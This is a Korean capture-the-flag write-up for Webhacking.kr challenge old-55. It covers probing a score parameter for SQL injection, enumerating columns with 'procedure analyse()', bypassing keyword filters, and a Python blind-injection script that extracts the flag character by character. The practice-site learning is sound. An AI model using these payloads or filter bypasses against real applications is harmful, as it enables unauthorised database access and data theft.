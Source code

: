 ```yaml
---
title: ["[Webhacking.kr] old-55 (sqli - 40)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli, blind sqli]
---
```


```php
mysqli_query($db,"insert into chall55 values('{$_SESSION['id']}','".trim($_POST['score'])."','{$flag}')");
```  

메인 페이지에는 마우스 커서를 따라다니는 게임이 있고,  
`rank.php`에는 위의 SQL 쿼리를 사용해서 점수를 입력하는 시스템이 있다.  
또한, score 값으로 id를 조회할 수 있는 기능이 있다.  

먼저, burp로 score를 보내는 부분을 잡아보자.  
POST로 `score=180100&mx=245&my=273` 데이터를 요청한다.  
그리고 `rank.php`에서 `?score=180100` 파라미터를 넣으면 내 id가 정상적으로 나온다.  


```sql
insert into chall55 values('id','trim(score)','flag')
```  
PHP 코드의 SQL 쿼리는 위와 같이 실행될 것이다.  


```sql
insert into chall55 values('id','123','flag'),('id1','180100','flag')
```  
multi-value INSERT가 되는지 테스트해보기 위해,  
`180100','flag'),('hello','180101` 이런 input을 넣어봤는데 DB에 insert되지 않았다.  

아무래도 어떤 필터가 동작하는것 같다.


접근법을 바꿔보자.  
`rank.php`에서 score의 결과를 조회하는 기능도 SQL 쿼리일 것이다.  

```sql
select id, score from chall55 where score=180102
```  
위와 같은 쿼리일 것이라 가정하고,  
`?score=180103+or+1=1%23` 테스트를 해보니 결과가 출력되었다.  

flag 컬럼 값을 불러오기 위해 `union select`를 사용하려고 했으나,  
`select` 문자열이 필터링이 된다.  

old-53에서 사용했던 `procedure analyse()`를 써보자.  

```
?score=180102+limit+0,1+procedure+analyse()
webhacking.chall55.id

?score=180102+limit+1,1+procedure+analyse()
webhacking.chall55.score

?score=180102+limit+2,1+procedure+analyse()
webhacking.chall55.p4ssw0rd_1123581321
```

flag가 기록되는 컬럼명이 `p4ssw0rd_1123581321`이다.  

Blind SQL Injection을 수행하면 된다.  
`ascii`, `ord`, `hex`, `substr`, `mid` 등이 필터링된다.  

Blind SQLi는 이진탐색을 이용해서 해결하고 싶은데, `mid`와 `substr`이 모두 막혀서 할 수 없이 `left`를 썼다.  

## Payload
```python
import requests

url = "https://webhacking.kr/challenge/web-31/rank.php"
cookies = {"PHPSESSID": "dmjrpfsds9jujfikg5hit9cnvr"}

for i in range(1,50):
    payload = f"180102+and+length(p4ssw0rd_1123581321)={i}"
    response = requests.get(f"{url}?score={payload}")

    if('holaf' in response.text):
        flag_len = i
        print(f"Flag length is {flag_len}")
        break

flag='0x'
print_flag = ''
for i in range(1, flag_len+1):
    for j in range(32, 127):
        payload = f"180102+and+left(p4ssw0rd_1123581321,{i})={flag}{hex(j)[2:]}"
        response = requests.get(f"{url}?score={payload}")
        if('holaf' in response.text):
            flag = flag + str(hex(j)[2:])
            print_flag = print_flag + chr(j)
            print(f"Flag is {print_flag}")
            break
```

### 복기
다 풀고 다른 사람들의 풀이를 보니  
`right(left())`로 `substr`의 효과를 낼 수 있었다.  
또 하나 배워갑니다.
